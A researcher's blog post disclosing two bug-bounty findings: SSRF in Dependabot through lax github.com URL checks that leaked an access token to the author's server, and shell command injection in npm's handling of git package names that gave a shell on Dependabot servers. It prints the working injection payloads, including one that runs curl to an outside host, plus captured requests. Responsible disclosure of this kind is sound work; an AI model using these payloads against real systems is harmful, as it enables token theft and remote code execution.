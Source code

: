 ```yaml
---
title: "Diving into Dependabot along with a bug in npm"
date: 2021-07-12T23:30:00+09:00
url: /posts/2021-06-27-dependabot-rce/
---
```


If you are developing some applications on GitHub, you might have seen pull requests from Depedabot.
It automatically finds outdated vulnerable packages and sends pull requests to fix that.

![](screenshot1.png)

It is enabled by default and can make a commit on `dependabot/*` branch of many repositories on GitHub.
Therefore, I thought If I could gain a controll of Dependabot, I can steal write permissions of those repositories.
So I started to look into Dependabot.

# SSRF in Dependabot

The core module of the Dependabot is open-sourced (<https://github.com/dependabot/dependabot-core>), so we can use Dependabot outside of GitHub.
To start the investigation, I prepared an local Dependabot environment following [the official sample code](https://github.com/dependabot/dependabot-script).

This sample code requires GitHub access token to fetch the source code of the repository.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb?slice=16:23"></script>

My first idea is to deceiving a Dependabot so that the bot will sends the token to my server instead of GitHub.
This idea seems possible because there are flaws in URL validations.

One of the validations is to check whether the URL contains `github.com` or not.
Obviously, this validation accepts a URL such as `github.com.mocos.kitchen`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=7:8"></script>

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=54:55"></script>

Another one uses following regexp which accepts a URL such as `git+https://github.com.mocos.kitchen/username/repo`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_parser.rb?slice=27:37"></script>

Based on these tricks, Dependabot treats `git+https://github.com.mocos.kitchen/username/repo` as a valid GitHub's URL.

## Token stealing demo

To proof this concept, I created [a sample repository](https://github.com/tyage/dependabot-test-app) that includes following `package.json` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/package.json"></script>

Next, I updated the `credentials`, `repo_name` and `dependency_name` in [update-scripts.rb](https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb) from the official sample code so that we can run dependency checker against the sample repository I created.
When I run the script, my server - `github.com.mocos.kitchen` - received a request containing GitHub Access Token.

It means, if someone run a dependency checker against malicious repository, their GitHub Access Token will be stolen!

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.142.0 excon/0.79.0 ruby/2.6.6 (x86_64-darwin20) (+https://github.com/dependabot/dependabot-core)
Authorization: Basic eC1hY2Nlc3MtdG9rZW46Z2hw*************************************
Accept-Encoding: deflate, gzip
```

## First dive into a Dependabot server

Next, in order to try this attack in GitHub environment, I enabled Dependabot alerts in the sample repository.
We can do this by simply creating a `.github/dependabot.yml` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/.github/dependabot.yml"></script>

I successfully received a HTTP request from a Dependabot in GitHub.
But contrary to my expectation, there is no GitHub Access Token in the request.
Afterwards, it turns out that those servers are using special HTTP proxy which enalbes the bot to access target repository without GitHub Access Token.

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.156.4 excon/0.83.0 ruby/2.7.1 (x86_64-linux-gnu) (+https://github.com/dependabot/dependabot-core)
Accept-Encoding: gzip
```

I couldn't steal the token from GitHub's Dependabot server by SSRF, but after some investigation, I found another bug.

# Get the shell of a Dependabot server

When I tried some payload, I came across with a pattern that triggers a shell command in Dependabot server.
With the package name `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/...`, a shell command `curl$IFS@mocos.kitchen:3001` was executed and we could see the request!

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test3/blob/a81ac0bb60ac5aad66fa3191b5276f633a6d421d/package.json"></script>

I got the shell of the Dependabot server suddenly, but unfortunately, what we can do in the server is limited.
Here is what I could do:

- Access to the internal HTTP proxy which enables us to access to the target GitHub repository
- Access to the internal API server which enalbes us to create a pull request as a Dependabot
- Bitcoin mining :)

Therefore, we couldn't obtain read/write access of other user's repository.
(If we can pwn the internal HTTP proxy or API server, it will allow us to escalate the permission, I guess.)

Even though I couldn't get the access to other user's repository, I could impersonate as a verified Dependabot account and create a commit and pull request by calling internal API.

<https://github.com/tyage/dependabot-test3/pull/31>

![https://github.com/tyage/dependabot-test3/pull/31](screenshot2.png)

![https://github.com/tyage/dependabot-test3/pull/31](screenshot3.png)

## RCE in npm

By the way, what was happend to Dependabot when I changed the package name to `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);...`?
I found that the command was executed in `run_npm_7_top_level_updater` method.
In this method, the bot runs `npm install` command with `--ignore-scripts --package-lock-only` arguments so that it can see if the lock file is updated without running install scripts.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_updater/npm_lockfile_updater.rb?slice=182:193"></script>

Therefore, I thought Dependabot doesn't escape the arguments, but it does properly escapes all command arguments.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/common/lib/dependabot/shared_helpers.rb?slice=273:274"></script>

So I manually run `npm install` command to see what was happened and...

```
$ npm install 'git+https://github.com/tyage/sample-package;echo HELLO > a;' --ignore-scripts
npm ERR! code 127
npm ERR! command failed
npm ERR! command git ls-remote ssh://git@github.com/tyage/sample-package;echo HELLO > a; .git
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd HEAD
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/heads/main
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/4.0.0
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/5.0.0
npm ERR! zsh:1: command not found:  .git

npm ERR! A complete log of this run can be found in:
npm ERR!     /Users/tyage/.npm/_logs/2021-04-06T09_39_20_675Z-debug.log
$ cat a
HELLO
```

Yes, the bug is in npm!
Even if there is a `--ignore-scripts` option, we can execute a shell command injected in a package name!

When we call `npm install` command with `git+https://...` package name, `git ls-remote` command is triggered using `child_process.spawn` method.

<script src="https://gist-it.appspot.com/https://github.com/npm/cli/blob/dedb9c8f8b0891b30aa76e60cdb1c4f0f9b2f22f/node_modules/%40npmcli/promise-spawn/index.js?slice=35:36"></script>

Also, if `child_process.spawn` method is called with `shell` option, [the command will be run inside of the shell](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options).

npm passes `opts` variable, which contains npm config, as an option argument.
It means `opts.shell` is same with [`shell` config](https://docs.npmjs.com/cli/v7/using-npm/config#shell) which default value is a `$SHELL` environment variable or `bash` on Posix

You can see your config of the npm with `npm config` command.

```
$ npm config get shell
/bin/zsh
```

Summarizing the above, npm calls `child_process.spawn` so that they can execute `git ls-remote 'git+https://....'`, but since they set the `shell` option, malicious shell command - starts from `;` or `$(` - in the package name is evaluated.

I reported this bug to the teams and [it was resolved in npm 7.10.0](https://github.com/npm/git/pull/29).
I asked if they issue CVE but they answered they will not.

But as you know, the action "installing a malicious npm package" itself is already dangerous, so this bug only affects to limited situations such as a dependency checker.

# Timeline

I reported SSRF to Dependabot and RCE to npm, and received bounties $617 and $7,500 respectively.

Interestingly, both of them are in the scope of [GitHub Bug Bounty Program](https://hackerone.com/github).

Report to Dependabot:

- **2021/03/31 08:50:30 UTC** Reported Dependabot issue
- **2021/04/23 09:54:22 UTC** Bounty Rewarded

Report to npm:

- **2021/04/06 10:23:49 UTC** Reported npm issue
- **2021/04/07 17:53:57 UTC** Issue triaged
- **2021/04/28 19:41:59 UTC** Issue patched
- **2021/05/04 14:42:21 UTC** Bounty Rewarded
